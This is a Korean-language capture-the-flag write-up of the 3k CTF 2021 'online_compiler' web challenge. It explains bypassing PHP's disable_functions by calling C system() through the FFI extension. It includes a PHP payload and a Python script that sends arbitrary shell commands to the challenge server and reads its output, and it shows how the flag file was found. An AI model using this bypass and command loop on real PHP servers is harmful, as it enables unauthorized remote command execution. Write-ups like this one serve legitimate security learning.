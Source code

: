 ```yaml
---
layout: post
date: 2021-05-17 00:00:13
title: "3k CTF 2021 Write Up"
categories: CTF
tags: [RCE, PHP]
author:
  - Jeongwon Jo

---
```

## (Web) online_compiler [425 pts]

> online_compiler 문제는 disable_functions를 우회하고 플래그를 획득하는 문제입니다.

일단 문제에서 `back-end` 코드와 `php.ini` 파일이 주어지는데 백엔드 코드에서는 그냥 php 코드를 실행할 때 `php.ini` 파일을 기반으로 실행시키는 것만 확인하면 된다. `php.ini` 파일을 확인해보면 `disable_functions`에 의해 많은 함수들이 비활성화 되어 있다. 당연히 `system()`, `exec()`와 같이 쉘 명령어를 실행 할 수 있는 함수들도 비활성화 되어 있다..

![](https://github.com/wjddnjs33/image/blob/main/3kctf%202021/1.png?raw=true)

하지만 `phpinfo()`는 비활성화가 되어 있지 않아 위와 같이 `PHP Version`을 확인할 수 있었고, 7.4.X 버전을 사용 중 이라는 것을 알 수 있었다. 그래서 해당 버전에서 발생하는 취약점들을 찾아보았다.

![](https://github.com/wjddnjs33/image/blob/main/3kctf%202021/%E1%84%89%E1%85%B3%E1%84%8F%E1%85%B3%E1%84%85%E1%85%B5%E1%86%AB%E1%84%89%E1%85%A3%E1%86%BA%202021-05-16%20%E1%84%8B%E1%85%A9%E1%84%92%E1%85%AE%207.00.45.png?raw=true)
![](https://github.com/wjddnjs33/image/blob/main/3kctf%202021/%E1%84%89%E1%85%B3%E1%84%8F%E1%85%B3%E1%84%85%E1%85%B5%E1%86%AB%E1%84%89%E1%85%A3%E1%86%BA%202021-05-17%20%E1%84%8B%E1%85%A9%E1%84%8C%E1%85%A5%E1%86%AB%202.43.32.png?raw=true)

구글링을 하다가 위 내용을 발견했다. 키워드는 `php 7.4 disable_functions bypass`로 검색했는데 위 내용은 `bypass` 항목들 중 하나였다. `phpinfo()`에서 확인을 해보니 활성화가 되어 있는 것을 볼 수 있다.

![](https://github.com/wjddnjs33/image/blob/main/3kctf%202021/%E1%84%89%E1%85%B3%E1%84%8F%E1%85%B3%E1%84%85%E1%85%B5%E1%86%AB%E1%84%89%E1%85%A3%E1%86%BA%202021-05-17%20%E1%84%8B%E1%85%A9%E1%84%8C%E1%85%A5%E1%86%AB%202.31.49.png?raw=true)

그래서 5월 16일 오후 7시쯤 진규형님께 보내서 `일단 이게 젤 가능해보이는데`라고 아무 생각 없이 시전을 했다 ㅋㅋ. 씨발 그래도 그 후에 삽질을 2시간 더 했다.

![](https://github.com/wjddnjs33/image/blob/main/3kctf%202021/%E1%84%89%E1%85%B3%E1%84%8F%E1%85%B3%E1%84%85%E1%85%B5%E1%86%AB%E1%84%89%E1%85%A3%E1%86%BA%202021-05-17%20%E1%84%8B%E1%85%A9%E1%84%8C%E1%85%A5%E1%86%AB%202.30.48.png?raw=true)

일단 처음 `FFI`를 알아보고 `Foreign function interface`에 약자로 외부 함수 인터페이스인데 이것을 어떻게 활용하는 지 몰랐다. 그러다 신기한 글을 발견 했는데 `FFI` 클래스 내에 `cdef()` 메서드를 이용하는 것을 볼 수 있었다. `cdef()` 인자 값으로는 C 언어 함수 원형을 넣어주면서 객체 하나를 만들고, 해당 객체에서 생성한 함수 원형을 참조해서 외부 함수를 실행시키는 것을 볼 수 있었다.

![](https://github.com/wjddnjs33/image/blob/main/3kctf%202021/%E1%84%89%E1%85%B3%E1%84%8F%E1%85%B3%E1%84%85%E1%85%B5%E1%86%AB%E1%84%89%E1%85%A3%E1%86%BA%202021-05-17%20%E1%84%8B%E1%85%A9%E1%84%8C%E1%85%A5%E1%86%AB%202.39.19.png?raw=true)

C Language system() 함수의 원형을 알아보니 위와 같았다. 그냥 `const char command`할 때는 안 됐는더 포인터 변수로 안 해줘서 그런 거 같다.

```php
<?php 
  $ffi=FFI::cdef("int system(const char *command);");
  $ffi->system('ls');
?>
```
그래서 결과적으로 위와 같이 페이로드가 작성됐다. 처음에는 위 사진처럼 라이브러리 파일도 같이 인자로 넘겨주었지만 넘겨주면 잘 되지 않았다. 아마 같은 경로에 파일이 없어서 그런 거 같은데 없이 해줘도 아무 문제 없었다.

![](https://github.com/wjddnjs33/image/blob/main/3kctf%202021/%E1%84%89%E1%85%B3%E1%84%8F%E1%85%B3%E1%84%85%E1%85%B5%E1%86%AB%E1%84%89%E1%85%A3%E1%86%BA%202021-05-17%20%E1%84%8B%E1%85%A9%E1%84%8C%E1%85%A5%E1%86%AB%202.50.22.png?raw=true)

파이썬으로 익스 코드를 작성하고, 확인을 해보니 상위 티렉터리에 `El_FlAAG___FilEE` 파일이 존재했다. 그래서 해당 파일을 읽으니 플래그가 나왔다. 결국 아까 오후 7시쯤에 진규 형님께 시전한 게 맞았다. zz

```python
import requests
from pwn import *

url = 'http://onlinecompiler.2021.3k.ctf.to:5000/'
path = ['save', 'compile']

while(1):
    command = raw_input("pocas@py : ")
    c_type, code = 'php', '<?php $ffi=FFI::cdef("int system(const char *command);");$ffi->system(\'{}\');?>'.format(command)
    body1 = {'c_type':c_type, 'code':code}

    # save
    filename = requests.post(url + path[0], data=body1).text
    log.info("Exploitation")
    log.info("filename : " + filename)

    # compile
    body2 = {'c_type':c_type, 'filename':filename}
    result = requests.post(url + path[1], data=body2).text.replace('\n', ' ')
    log.info("result : " + result)
```

> FLAG : 3k{JuSt_A_WaRmUp_O.o}

---
